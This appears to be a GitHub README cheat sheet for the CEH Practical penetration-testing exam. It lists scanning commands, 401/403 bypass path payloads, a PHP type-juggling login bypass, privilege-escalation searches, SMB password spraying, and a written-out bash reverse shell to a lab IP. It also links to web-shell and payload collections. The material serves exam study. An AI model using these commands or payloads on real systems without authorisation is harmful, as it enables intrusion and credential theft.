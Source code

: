 # CEH-Bible
## It takes care of you during CEH Practical journey


### Tips for scanning/enumeration:
+ namp -sV HOST |Explaination: -sV: Probe open ports to determine service/version info
+ nmap -sCV HOST |Explaination: -sC: equivalent to --script=default
+ nmap -sV -script=vulners.nse HOST |Explaination: search for vulnerabilities
+ nmap -p- --min-rate=1000 -sV -sC -T4 HOST |Explaination: scan for all ports, with a min Packet ratio to send (to speed up), with an aggressive time (T4)
+ sudo nmap -sU -sV -sC IP |Explaination: perform an UDP scan, requires more time.
+ Always look for response headers
+ Enumerate subdomains (you can use gobuster)
+ If there is a DNS server, use it to search for domains. You can use DIG:
    +  DNS Reverse: dig @DNS_SERVER_IP -x IP_TO_REVERSE
    +  TRANSFER ZONE CHECK (you can guess a domain to check if it exists): dig axfr @DNS_SERVER_IP guesseddomain
+ Scan for .txt files
+ Don't forget to scan every dir you found
+ Don't forget to scan every API endpoint you found. Use different HTTP Methods too.
+ Identify what language/framework is used in the webApp. Use appropriate wordlist.
+ Using DIRB you can specify file extensions: "-X .php"
+ If you found an LFI or an Arbitrary File Read Vulnerability, you could read file: "../../../../../proc/self/environ" (same level of /etc/passwd) to read Enviroment Variables of the current process (there could be some sensitive information exposure)
+ Look for XSS, they could be used to reveal sensitive information by Server side

### Tips for Arbitrary File Read
+ Search for Vulnerable library used
+ Search for any unsecure deserialization
+ NodeJS:
    + index.js
    + server.js
    + main.js 

### Tips for 401-403 Error Bypass
[Full article](https://blog.vidocsecurity.com/blog/401-and-403-bypass-how-to-do-it-right/)
+ Change HTTP Method:
  + GET
  + HEAD
  + POST
  + PUT
  + DELETE
  + CONNECT
  + OPTIONS
  + TRACE
  + PATCH
  + FOO # non existant method also might work
+ User-Agent fuzzing
+ HTTP Headers fuzzing
+ Path Fuzzing and creative string literals.
  + /../
  + /...
  + /..%00
  + /..%01
  + /..%0a
  + /..%0d
  + /..%09
  + /~root
  + /~admin
  + /%20/
  + /%2e%2e/
  + /%252e%252e/
  + /%c0%af/
  + /%e0%80%af
+ Downgrade the protocol version.
+ HTTP request smuggling  

### Tips for API Testing:
+ Use different HTTP Methods
+ Even if API is REST (Content-Type: application/json), it could accept non-JSON payloads (Content-Type: application/x-www-form-urlencoded)
+ https://jwt.io/  Will help to craft and analyze tokens

### Tips for injection/fuzzing:
+ Changing the order of parameters could lead to a restriction bypass
+ Encode your payload
+ A form could handle dirrent type of requests. Try: Content-Type: application/json , Content-Type: application/x-www-form-urlencoded
+ Don't try only SQL injection, Try also NoSQL

### Tips for gaining access:
+ If there is a common well-known webApp, test for default credentials
+ An API endpoint, could still evaluate a JSON body even if HTTP Method is GET.
+ PHP: Type juggling: {"password":true} this payload could bypass a login form

### Tips for privilege escalation:
+ Find SUID: find / -perm -u=s -type f 2>/dev/null
+ Find executables runnable as Sudo by current User: sudo -l
  If there are any, check for their version and their CVE/exploits
  If they use relative paths, $PATH could be modified in order to execute a new file created by us.
+ Look for sensitive informations:
    + Search Files owned by the user: find / -uid UID -type f -ls 2>/dev/null | grep -v "/proc*"
    + Search Files with the name of the user in it: find / -name "*USER*" -type f -ls 2>/dev/null
    + Search Files with the word password in the home directory: grep -i password -R .
+ Look for process execution. Probably there could be some process running as root, and they could be exploitable: ps -ef --forest
+ If you have to pass a file you can expose an http server with:python3 -m http.server and use wget on target machine
+ Look for crontab

### Tips for windows:
+ evil-winrm is a program to interact with RPC windows and other protocols

### Tips for Android
+ [PhoneSploit](https://github.com/AzeemIdrisi/PhoneSploit-Pro)

## Useful CMDs
### FTP Anonymous login + dump ALL
+ wget -m ftp://anonymous:anonymous@10.10.10.98 #Donwload all
+ wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98 #Download all

### SMB
Use crackmapexec to check if any of these passwords work for any of the users for smb:
+ crackmapexec smb 10.10.10.184 -u users -p passwords

### Useful links while pentesting:
+ [Payloads for Common Vulnerabilities](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master).
+ [Wordlists](https://github.com/danielmiessler/SecLists)
+ [5k lines webapp Wordlist](https://github.com/Bo0oM/fuzz.txt/blob/master/fuzz.txt#L5329)
+ [Hash Identifier](https://hashes.com/en/tools/hash_identifier)
+ [Automated Privilege Escalation](https://github.com/carlospolop/PEASS-ng)
+ [Single PHP shell file](https://github.com/flozz/p0wny-shell)
+ [Reverse Shell Generator](https://www.revshells.com/)
    + If RevShell is not working try to enclose payload in bash -c "" like this: bash -c "bash -i >& /dev/tcp/10.10.14.6/1337 0>&1"
+ [Useful Commands](https://github.com/xaferima/Certified-Ethical-Hacking-Practical-Tools/blob/main/Commands-4-tools-used)
+ [VERY GOOD TOOLS EXPLAINATION divided by CyberKill Chain phases](https://book.thegurusec.com/certifications/certified-ethical-hacker-practical/reconnaissance-footprinting)
  
### Useful links for learning:
+ [List of vulnerable Web App](https://www.theprohack.com/p/web-hacking-practice-list-of-vulnerable.html)
+ [IppSec Channel](https://www.youtube.com/@ippsec/featured)
+ [CEH Master Guide](https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master)
